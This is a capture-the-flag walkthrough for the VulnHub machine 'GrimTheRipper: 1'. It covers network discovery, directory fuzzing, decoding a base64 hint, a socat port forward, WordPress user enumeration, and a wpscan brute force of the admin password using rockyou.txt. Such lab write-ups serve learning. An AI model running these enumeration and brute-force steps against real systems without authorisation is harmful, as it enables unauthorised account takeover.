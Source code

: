# GrimTheRipper: 1

## 1.Get VM IP

```bash
root@kali: arp-scan -I eth1 -l

Interface: eth1, type: EN10MB, MAC: 00:0c:29:3a:bc:b3, IPv4: 192.168.127.128
Starting arp-scan 1.10.0 with 256 hosts (https://github.com/royhills/arp-scan)
192.168.127.1   00:50:56:c0:00:01       VMware, Inc.
192.168.127.252 00:0c:29:b1:00:86       VMware, Inc.
192.168.127.254 00:50:56:f1:df:13       VMware, Inc.
```

The IP address is `192.168.127.252`, let's enumerate it

## 2.Enumeration

I started with checking and fuzzing the website and checking robots.txt:

```bash
root@kali: ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://192.168.127.252/FUZZ

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://192.168.127.252/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________
index                   [Status: 200, Size: 55, Words: 2, Lines: 4, Duration: 20ms]
image                   [Status: 200, Size: 67169, Words: 142, Lines: 220, Duration: 1ms]
index2                  [Status: 200, Size: 122, Words: 5, Lines: 12, Duration: 2ms]
robots                  [Status: 200, Size: 24, Words: 1, Lines: 4, Duration: 5ms]
```

we found a new directory `index2` which when you navigate to its page source you find this :

![image](https://github.com/Git-K3rnel/VulnHub/assets/127470407/47ebbe17-926f-4a02-9ecf-eebb212461c1)


Try to decode the base64 string :

```bash
root@kali: echo -n 'THpFd01UQXhNREU9IHRyeSBoYXJk' | base64 -d
LzEwMTAxMDE= try hard 
```

and another decode :

```bash
root@kali: echo -n 'LzEwMTAxMDE=' | base64 -d                
/1010101  
```

now we found `/1010101` to check on the server :

![image](https://github.com/Git-K3rnel/VulnHub/assets/127470407/eb82326f-43c5-429e-9348-50912634b1bb)


when you navigate to `wordpress` directory, you will see that all links are broken, this is because all links point to `127.0.0.1`

we can run a port forwarder to redirect these request to server :

```bash
root@kali: socat TCP-LISTEN:80,fork TCP:192.168.127.252:80
```

now all links work fine :

![image](https://github.com/Git-K3rnel/VulnHub/assets/127470407/aba2eba4-8ed8-4707-ae61-f79702af419b)

now i use `wpscan` to find any plugin or user on the target :

```bash
root@kali: wpscan --url http://192.168.127.252/1010101/wordpress/ -e u,ap

[+] Enumerating All Plugins (via Passive Methods)

[i] No plugins Found.

[+] Enumerating Users (via Passive and Aggressive Methods)
 Brute Forcing Author IDs - Time: 00:00:01 <============================================================================================================> (10 / 10) 100.00% Time: 00:00:01
[i] User(s) Identified:

[+] admin
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)
```

it found no plugin but found user `admin`.

i tried different things but at last i just brute forced the admin user with wpscan to find the password :

put user `admin` into user.txt

```bash
wpscan --url http://192.168.127.252/1010101/wordpress/ -U user.txt -P /usr/share/wordlists/rockyou.txt
```

- found the password : Password@123 




